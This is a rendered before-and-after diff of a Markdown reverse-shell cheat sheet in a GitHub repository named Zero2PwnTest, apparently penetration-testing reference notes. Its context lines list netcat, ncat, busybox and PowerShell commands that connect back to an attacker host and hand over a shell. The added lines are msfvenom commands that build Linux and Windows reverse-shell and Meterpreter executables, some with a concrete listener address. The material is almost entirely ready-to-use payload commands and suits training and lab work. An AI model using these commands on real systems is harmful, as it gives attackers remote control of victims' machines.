

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Shells & Payloads/web_reverse_cheat_sheet.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

`````diff
--- a/Shells & Payloads/web_reverse_cheat_sheet.md
+++ b/Shells & Payloads/web_reverse_cheat_sheet.md
@@ -15,6 +15,7 @@ $ nc <IP-Attacker> <Port> -e sh
 $ nc <IP-Attacker> <Port> -e /bin/bash
 $ busybox nc <IP-Attacker> <Port> -e sh
 $ ncat <IP-Attacker> <Port> -e sh
+$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP-Attacker> LPORT=<Port> -f elf > nameoffile.elf
 ````
 
 ### Windows
@@ -30,6 +31,8 @@ $sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient
 --------------------------------------------------------------------------------------------
 > nc.exe <IP-Attacker> <Port> -e cmd.exe
 > powershell -e base64_payload
+> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
+> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
 ````
 
 **Other Languages**
`````
